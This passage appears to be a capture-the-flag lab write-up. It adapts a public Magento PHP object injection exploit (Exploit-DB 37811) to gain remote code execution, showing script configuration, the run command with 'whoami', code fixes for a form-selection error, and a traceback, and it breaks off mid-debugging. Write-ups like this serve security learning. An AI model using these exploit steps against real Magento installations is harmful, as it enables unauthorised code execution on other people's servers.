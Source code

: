 After skimming through the code of the [exploit](https://www.exploit-db.com/exploits/37811), it seems to be a [PHP Object Injection](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/) in the administrator interface that leads to remote code execution.

To get the code working on our application, we need to make a few changes:

* Add the username/password random/random.
* Change the install date to the exact date from /app/etc/local.xml.

```text
username = 'forme'
password = 'forme'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

As per the included instructions, run the script using the following command:

```text
# python3 %s <target> <payload>
python 37811.py  http://10.10.10.140/index.php "whoami"
```

We get a “mechanize.\_form\_controls.ControlNotFoundError”. We run it through Burp like we did previously and we find out that it’s not even logging in with the admin credentials we created.

After spending some time googling the error, I found [a post](https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name) on stackoverflow stating that the issue is that “there is only one form from the code provided and multiple username, passwords fields which is where the Ambiguous error comes from”. Therefore, we need to use and index parameter for selecting the form. Make the following changes to the code.

```text
br.select_form(nr=0)#Comment out the following code
#br.form.new_control('text', 'login[username]', {'value': username})  
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password#Add the following code
userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password
```

Let’s run it again. This time we get a different error.

```text
Traceback (most recent call last):
  File "37811.py", line 74, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

Let’s try and figure out what the error means using Burp. The script already contains code that allows you to send a traffic through a proxy.

```text
#uncomment this line
br.set_proxies({"http": "localhost:8080"})
```
